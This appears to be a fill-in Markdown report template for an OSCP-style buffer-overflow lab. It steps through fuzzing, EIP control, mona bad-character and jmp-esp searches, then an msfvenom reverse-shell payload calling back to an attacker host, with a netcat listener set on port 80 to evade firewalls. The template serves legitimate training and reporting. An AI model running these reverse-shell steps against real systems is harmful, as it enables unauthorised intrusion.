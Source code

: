 
## System: 192.168.x.x - Hostname

Offensive Security provided an application for black box review.  The application was running on a production server 192.168.x.x and a test system.  The test system was used to determine if buffer overflow existed in the application code.

The application was running on a test proof of concept (PoC) and production server as indicated in the scope below.  The test system was used to determine if a buffer overflow existed in the application code prior to attempting any direct exploitation of the production server.

### Scope

The IP address for the target(s) were provided by the client as documented here.  All buffer overflow penetration testing will operate only on the following system scope.

Server IP Address | Ports Open | Service | Application
----|----|----|----
192.168.x.y (Test) | **TCP**: 1337 | TBD | TBD.exe
192.168.x.z (Production) | **TCP**: 1337 | TBD | TBD.exe

### Vulnerability Exploited: buffer overflow

#### 1. Fuzzing

The command detected by manually probing the service is "SOMETHING".  Fuzzing the service crashes when sending between LOW and HIGH bytes but this is a possible range as the crash may have occurred earlier.

```Bash
# Output from fuzzing script
```

Identification of a buffer overflow by causing a crash is one thing but In order to progress the damage from loss of availability to exploitation the exact byte causing the overflow is needed.  To find this value a unique string of characters is sent to the service and the EIP at crash evaluated for the exact for characters.  The EIP contains ADDRESS which occurs at byte **NUMBER**.

#### 2. Control the EIP

To control the EIP line X of the script was modified to have an offset equal to the overflow byte NUMBER.

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

```Python
18: offset = NUMBER
19: overflow = "A" * offset
20: retn = "ZZZZ"
...
26: buffer = prefix + overflow + retn
```
Upon the next exploit attempt Immunity shows the intended four "ZZZZ" characters in the EIP validating attacker control.

#### 4. Find Bad Characters

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

Some bytes will corrupt subsequent bytes.  To prevent this from affecting the exploit I followed a process cycle to identify bad characters.  

To accomplish this process was followed.
Set mona working directory:

```
!mona config -set workingfolder c:\mona\%p
```

Create the bytearray with a single default null byte as the only bad character.

```
!mona bytearray -b "\x00"
```
Update the payload to include a bytearray of every character from \\x01 to \\xff.  Send the payload.  Check the ESP register with the following mona command:

```
!mona compare -f c:\mona\oscp\bytearray.bin -a ESP_REGISTER
```
Mona memory comparison results show \\a0 for corrupt characters in the table listing.  Visual inspection of the dump aligns with mona.py.  In the case of COMMAND the bad characters are: "\\x00...".

#### 5. Find the Right Module

I ran the mona command to locate an appropriate jump point and selected DLL_NAME as it has no protections.  I selected the return address "ADDRESS".

> Be sure to escape all byte characters or it will prevent the PDF report from generating with autorpt.

```Bash
!mona jmp -r esp -cpb "\\x00..."
```

#### 6. Generate Shellcode & Gain Test Shell

Closing the circle on the proof of concept system involves attaining an internactive shell on the target system.  

```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALILINUX LPORT=80 EXITFUNC=thread -b "\\x00..." -f c
```

Setup a netcat listener on TCP port 80 to evade the firewall on the target server.

```Bash
sudo nc -nvlp 80
```

Run the exploit.  An interactive shell to the proof of concept server is established.

```Bash

```

#### 7. Exploit Production Target

With a complete proof of concept buffer overflow leading to interactive shell I repeated the shellcode creation step for the target production server.

```Bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALILINUX LPORT=80 EXITFUNC=thread -b "\\x00..." -f c
```

Setup a netcat listener on TCP port 80 to evade target system firewall.

```Bash
sudo nc -nvlp 80
```

Run the exploit.  An interactive shell to the production server is established.

```Bash
ipconfig
type "c:\Documents and Settings\Administrator\Desktop\proof.txt"
```

> Delete this note and the OS output not needed for evidence.

**Linux**

```Bash
cat /root/proof.txt
ip addr show

# Check for local.txt
find / -type f -name local.txt
cat local.txt
```

**Windows**

```Powershell
type "c:\Documents and Settings\Administrator\Desktop\proof.txt"
ipconfig

REM Check for local.txt
cd \
dir /s local.txt
type local.txt
```

#### Proof.txt

**Screenshot**

Screenshot must show proof.txt contents with `cat` or `type` command and output from `ipconfig` or `ip`.  Additionally, search the system for local.txt to cover all bases.  

Rewrite all pasted images from this 
"\![[Pasted image 20210510161424.png]]" to this 
"\"![Pasted image 20210510161424.png](Pasted image 20210510161424.png)""

PDF generation may not size images correctly and you may need to force the width.
![sample default resolution](images/placeholder-image-300x225.png)
![sample 600px wide, full page width](images/placeholder-image-300x225.png){ width="600px" }

**Contents**

Screenshot must show 

\pagebreak

### Completed Buffer Overflow Code

```Python
#!/usr/bin/python3
#
#     REPLACE ME WITH YOUR ACTUAL CODE !!!

import os, sys

print("REPLACE ME WITH YOUR ACTUAL CODE")
```


